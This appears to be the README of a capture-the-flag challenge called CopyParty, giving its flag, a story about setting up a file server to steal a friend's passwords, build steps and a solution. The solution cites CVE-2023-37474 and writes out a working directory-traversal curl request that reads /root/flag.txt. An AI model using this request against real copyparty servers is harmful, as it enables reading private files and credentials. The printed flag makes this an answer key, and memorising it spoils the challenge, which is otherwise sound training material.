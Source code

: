 # NAME
CopyParty
# FLAG
Intake{3very0n3_n33ds_l1m1ts}
# Challenge Desc
My friend left his pc on while he went out so I setup a file server in his home directory so I can steal his passwords later. Can you help me find the flag?

# Creation
1. Change flag in docker root
2. Build docker container

# Solution
- Vulnerable to directory traversal
- CVE-2023-37474
- https://www.exploit-db.com/exploits/51636
- `curl localhost:3923/.cpr/%2F/root/flag.txt`
